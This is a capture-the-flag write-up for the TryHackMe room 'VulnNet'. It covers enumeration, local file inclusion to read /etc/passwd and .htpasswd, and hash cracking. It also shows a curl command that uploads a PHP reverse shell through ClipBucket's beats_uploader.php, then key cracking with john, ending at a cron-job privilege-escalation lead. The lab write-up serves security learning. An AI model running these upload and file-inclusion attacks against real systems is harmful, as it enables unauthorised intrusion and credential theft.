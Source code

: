 ```yaml
---
title: VulnNet
layout: post
author: Bit Criminals Team
date: 2021-05-03 17:02:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/vulnnet1
---
```


Lets start with a nmap scan.On scanning we got port 80 and 22 port 

![](/images/D4rkDemian/vulnet.png)

On checking the website we got a nice vulnnet page which didn't had anything important...

And also in the prompt we are provided with a domain **vulnnet.thm**. So lets scan for subdomains using gobuster 

```shell
gobuster vhost -u vulnnet.thm  -w /usr/share/dns 
```

we found two subdomains in which only one was working but it required authentication password.

```
broadcast.vulnnet.thm
```

Firstly add both the domains with the box ip to /etc/hosts.

Now lets run gobuster on the website which is running.

![](/images/D4rkDemian/vulnet2.png)

On searching all the directories we found something worth in /js.It gave us the hint that there is LFI(Local File Inclusion) in this box..

![](/images/D4rkDemian/vulnet3.png)

Now lets check for /etc/passwd and it worked!!

![](/images/vulnet4.png)

After playing a lot with LFI we finally found a password hash in 
```
/etc/apache2/.htpasswd
```
![](/images/D4rkDemian/vulnet5.png)

On cracking the hash using john we found that the auth credentials for **broadcast.vulnnet.thm** are 

```
developers:9972761drmfsls
```

So we are inside the **broadcast.vulnnet.thm**

It seems to be a website incorporating ClipBucket . 

![](/images/MaskdMafia/vulnnet1.png)

Checking the version shows us that it is running on ClipBucket version 4.0.
So we search for exploits in this version using the searchsploit command and come across this exploit:

![](/images/MaskdMafia/unknown.png)

(Although the name of the exploit shows that it is for versions lower than 4.0 , the comments inside the file say that it has been tested on version 4 too.)

```py
Clipbucket version 2.8.3 and version 4.0.0 have been tested. These versions were the latest at the time 
the security vulnerabilities were discovered.
```
There is a section in the exploit about arbitrary file upload to a ClipBucket website,so we try out that exploit to upload a php reverse shell.

```py
curl -F "file=@/opt/reverse_shell.php" -F "plupload=1" -F "name=anyname.php"
 "http://developers:9972761drmfsls@broadcast.vulnnet.thm/actions/beats_uploader.php"
```
After that we start our listener on the specified port and navigate to the /actions/ directory and click on our exploit to open it.

![](/images/MaskdMafia/vulnnet2.png)

And we see that we have got a shell!
Searching through the system , we notice a very interesting file , ssh-backup.tar.gz in /var/backups.
So we extract the file to get the id_rsa key.However it is password encrypted.

```py
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A[REDACTED]9CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH[REDACTED]sugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J[REDACTED]Opu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUAD[REDACTED]URwnzW9+RwmmJS[REDACTED]0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```
So we copy it to our file and decrypt it using the following commands:
```py
python ssh2john.py id_rsa > key.hash
john key.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
After that we connect via ssh as server-management.
From there we can read user.txt to get our first flag.

After that comes privilege escalation. We try sudo -l but are prompted for a password (which we dont have :( ) so we search through the system manually but it yields no results. However on displaying the contents of /etc/crontab we see a very interesting file backupsrv.sh running. So we display the contents of the file to find out more about it.

```py
# m h dom mon dow user    command
*/2   * * * *    root    /var/opt/backupsrv.sh
17 *    * * *    root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *    root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

![](/images/MaskdMafia/vulnet3.png)

We see that it makes a backup of everything in the Document folder routinely.
